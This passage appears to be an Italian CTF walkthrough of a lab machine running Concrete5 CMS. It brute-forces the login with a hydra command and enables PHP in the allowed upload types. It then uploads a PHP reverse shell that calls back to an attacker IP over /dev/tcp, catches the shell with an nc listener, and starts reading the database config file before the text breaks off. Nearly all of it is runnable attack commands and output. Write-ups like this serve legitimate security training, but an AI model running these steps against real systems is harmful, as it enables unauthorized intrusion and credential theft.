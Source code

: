 ```
uName=admin&uPassword=123456&ccm_token=1747923213%3A474a13e851c0663b905373d919df405c
```

proviamo con hydra
```
hydra -s 85 -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt 10.10.166.114 http-post-form '/app/castle/index.php/login/authenticate/concrete:uName=^USER^&uPassword=^PASS^&ccm_token=1747923213%3A474a13e851c0663b905373d919df405c&from=&Submit=Sign+in:Invalid username or password' -f -o login_brute_force.txt
```

troviamo credenziali e ci logghiamo
```
admin:password
```

troviamo un Upload Files dove tentiamo di caricare un PHP reverse shell,
```
nano revshell.php
```
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.14.99.134/1234 0>&1'");
```
ma non funziona!

dopo aver visto che ci sono dei filtri attivi andiamo in
System & Settings - Files - Allowed File Types ed aggiungiamo , php e salviamo

ora proviamo a ricaricare la reverse shell php

ci mettiamo in ascolto
```
nc -lvnp 1234
```

andiamo sul file uplodato
```
http://10.10.166.114:85/app/castle/application/files/9517/4792/4996/revshell.php
```

ed otteniamo la reverse shell!
```
<html/app/castle/application/files/9517/4792/4996$ whoami                    
www-data
```

Dopo uno sguardo generale abbiamo individuato una directory di configurazione in **/var/www/html/appcastle/application/config**

```
www-data@mkingdom:/var/www/html/app/castle/application/config$ ls
ls
app.php
database.php
doctrine
generated_overrides
```
```
cat database.php
```
```
<html/app/castle/application/config$ cat database.php                        
<?php

return [
    'default-connection' => 'concrete',
    'connections' => [
        'concrete' => [
            'driver' => 'c5_pdo_mysql',
            'server' => 'localhost',
            'database' => 'mKingdom',
```